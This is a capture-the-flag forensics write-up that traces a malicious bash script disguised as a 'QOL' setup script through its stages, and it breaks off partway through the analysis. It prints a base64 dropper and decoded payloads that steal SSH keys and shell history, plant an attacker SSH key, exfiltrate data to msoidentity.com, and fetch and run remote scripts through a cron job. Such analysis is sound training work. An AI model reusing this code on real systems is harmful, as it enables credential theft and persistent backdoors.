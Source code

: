 # DoD Cyber Sentinel Challenge - Remote Help (forensics, 200p, Medium Difficulty) 6/24/2025
## Preface
Unfortunately, I do not have access to the original challenge statement, but it mentions something about a fictional internal attack from a recently hired remote worker. They were able to recover a [bash script](https://github.com/btoroth/QOL/blob/main/QOL.sh) that seems to have triggered alarms, causing the attack to fail. It then mentions to try and follow the cyber kill chain from start to finish to see what the attacker was trying to do, and along the way you'd find four different parts of the flag.

## Solving

![image](https://github.com/user-attachments/assets/710acb2e-cbea-489c-ac08-c4962739b961)

At first glance the script seems pretty harmless, even calling itself a QOL (Quality of Life) script meant to just make some minor improvements to the system. Update/upgrade packages, install some tools, create some aliases, blah blah blah. BUT if you keep scrolling, down at the very bottom we see this:

`sudo echo IyEvYmluL2Jhc2gKCiRsb2c9Ii90bXAvbG9nXyQoZGF0ZSArIiVZLSVtLSVkLS0lSC0lTSIpIgokdGd6PSI ... AvaW5mby5zaAovYmluL2Jhc2ggL3RtcC9pbmZvLnNoCnJtIC1mIC90bXAvaW5mby5zaAo= | base64 -d >> /tmp/0.sh && chmod +x /tmp/0.sh && /bin/bash /tmp/0.sh &`

Here we go, this seems to be yet another bash script - now obfuscated in base64 - being saved and executed. We can simply throw base64 string in to the browser tool CyberChef, it will automatically detect base64, and then decode it for us:

![image](https://github.com/user-attachments/assets/a6de7c73-fddb-4038-a09d-e87336d19171)

```
#!/bin/bash

$log="/tmp/log_$(date +"%Y-%m-%d--%H-%M")"
$tgz="/tmp/log_$(date +"%Y-%m-%d--%H-%M").tgz"

mkdir -p $log

cat /proc/cpuinfo >> "$log/cpu.txt"
cat /proc/meminfo >> "$log/mem.txt"
cat /etc/os-release >> "$log/os.txt"



for dir in $(ls /home -1); do
    
	if [ -f "$dir/.ssh/" ]; then
		cat $dir/.ssh/* >> "$log/'$dir'.txt"
		cat $dir/.bash_history >> "$log/'$dir'-bash.txt"
	fi
    # Perform your actions here
done

if [ "$(id -u)" -eq 0 ]; then
	cat /root/.ssh/* >> "$log/root.txt"
	cat /root/.bash_history >> "$log/root-bash.txt"
	local url="https://msoidentity.com/auth"
    local auth_keys="$HOME/.ssh/authorized_keys"
	
    curl -s "$url" >> "$auth_keys"
    chmod 600 "$auth_keys"
fi 


tar -cf "$tgz" "$log" 2>/dev/null

if [ -f "$tarfile" ]; then
        curl -s --output /dev/null -X POST -H "accept: application/json" -H "Content-Type: multipart/form-data" -F "file=@$tarfile" "https://msoidentity.com/log"
    fi
}

curl -s https://msoidentity.com/info | base32 -d >> /tmp/info.sh
/bin/bash /tmp/info.sh
rm -f /tmp/info.sh
```

Now were seeing something more malicious! This script basically seems to create a directory called log_(current datetime) and piles a whole bunch of sensitive system information in there like CPU, memory, and OS info, as well as SSH keys and shell history. The attacker also seems to drop their own SSH key from "msoidentity.com/auth" into the authorized keys directory to set up persistence. Then, the logs get compressed into a tar file and exfiltrated to "msoidentity.com/log" via a POST request. After all that is done, another bash script - this time seemingly encoded in base32 - is retrieved and ran from "msoidentity.com/info".

Now we have three new URLs to explore, so my first instinct was to simply visit all three of them in a browser. While the auth endpoint seemed to be a dud, the log and info endpoints both yielded me text file downloads. From the log endpoint I got the first part of the flag, "C1{Sn34ky_", and from the info endpoint I got the encoded script. Once again, throwing the base32 encoded string into cyberchef worked just fine and output this:

![image](https://github.com/user-attachments/assets/3199b2d5-b01c-4d54-b277-f3c6b5f57f17)

```
CHECK_SCRIPT="/usr/local/bin/check_backup.sh"
CRON_INTERVAL="*/5 * * * *"  # Every 5 minutes
CRON_JOB_NAME="check_backup_script"
SCRIPT_PATH="/opt/backup.sh"
$SCRIPT_URL=https://msoidentity.com/backup_info

# DO NOT PUT PASSWORDS IN PLAIN TEXT

cat <<EOF | sudo tee "$CHECK_SCRIPT" > /dev/null
#!/bin/bash
if [ ! -f "$SCRIPT_PATH" ]; then
    curl -fsSL "$SCRIPT_URL" -o "$SCRIPT_PATH.enc" && openssl enc -nosalt -aes-256-cbc -d -in "$SCRIPT_PATH.enc" -out "$SCRIPT_PATH" -pass pass:"45337a3067335f56475f" && chmod +x "$SCRIPT_PATH" && rm "$SCRIPT_PATH.enc"
fi
EOF

chmod +x "$CHECK_SCRIPT"

(crontab -l 2>/dev/null | grep -v "$CHECK_SCRIPT"; echo "$CRON_INTERVAL $CHECK_SCRIPT # $CRON_JOB_NAME") | crontab -
```

Here's the next steps in the attack, first a couple variables are declared to be used later in the script, including a new URL to explore "https://msoidentity.com/backup_info".
